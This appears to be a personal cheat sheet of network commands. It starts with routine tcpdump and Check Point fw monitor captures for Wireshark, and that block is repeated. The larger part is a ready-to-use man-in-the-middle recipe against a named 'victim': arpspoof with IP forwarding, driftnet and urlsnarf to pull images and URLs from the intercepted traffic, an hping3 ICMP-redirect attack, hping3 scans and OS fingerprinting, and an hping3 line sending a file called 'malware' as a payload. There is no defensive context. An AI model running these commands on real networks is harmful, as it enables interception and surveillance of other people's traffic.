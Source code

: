 #Saving a TCP dump in a .pcap file
tcpdump -w capture.pcap -i eth-s1p2c0 host 10.1.1.1 and host 20.2.2.2
tcpdump -nni any host 10.1.1.1 -w capture.pcap
tcpdump -nni any host 10.1.1.1 and host 20.2.2.2 -w capture.pcap
tcpdump -s 1500 -i eth-s1p1c0 -w /var/log/tcpdump_s1p1c0.cap

#Saving a TCP dump in a .pcap file
tcpdump -w capture.pcap -i eth-s1p2c0 host 10.1.1.1 and host 20.2.2.2
tcpdump -nni any host 10.1.1.1 -w capture.pcap
tcpdump -nni any host 10.1.1.1 and host 20.2.2.2 -w capture.pcap
tcpdump -s 1500 -i eth-s1p1c0 -w /var/log/tcpdump_s1p1c0.cap

#Saving fw monitor logs to a .pcap file to analyse in wireshark
#Use WinSCP to access the Security Gateway and copy the file to your local drive to analyze it in Wireshark
fw monitor -e 'accept (src=10.1.1.1 and dst=20.2.2.2) or (src=20.2.2.2 and dst=10.1.1.1);' -m iIoO -o wireshark.pcap
fw monitor -e 'accept (src=192.167.4.244 and dst=193.140.12.215) or (src=193.140.12.215 and dst=192.167.4.244 );' -m iIoO -o wireshark1.pcap

start Wireshark from the command line.
$ wireshark -r test.pcap

#scenario #1
#machine acts as a router    
sysctl -w net.ipv4.ip_forward=1
arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]
arpspoof -i wlan0 -t 192.000.000.52 192.000.000.1
arpspoof -i [Network Interface Name] -t [Router IP] [Victim IP]
arpspoof -i wlan0 -t 192.000.000.1 192.000.000.52
#listens to network traffic and picks out images from TCP streams it observes
driftnet -i [Network Interface Name]
#sniffs HTTP requests in Common Log Format
urlsnarf -i [Network interface name]


#ICMP redirect MITM attack
/etc/sysctl.conf
net.ipv4.conf.all.accept_redirects = 0
hping3 -I eth0 -C 5 -K 1 -a 10.0.2.2 --icmp-ipdst 8.8.8.8 --icmp-gw 10.0.2.15 --icmp-ipsrc 10.0.2.16

#operating system detection w ICMP packages
hping3 -1 -c 1 –K 58 10.0.2.16
hping3 -a 10.1.1.1 -p 80 -S www.alibaba.com
hping3 -S 192.168.1.105 -p 80
hping -S 192.168.1.105 -p ++1
hping3 -f 192.168.1.105 -p 80

   
# -d is the data payload size (here, we've designated it as 10 bytes)
# -E tells hping3 to grab data from the following file
hping3 -f 192.168.1.105 -p 80 -d 10 -E malware
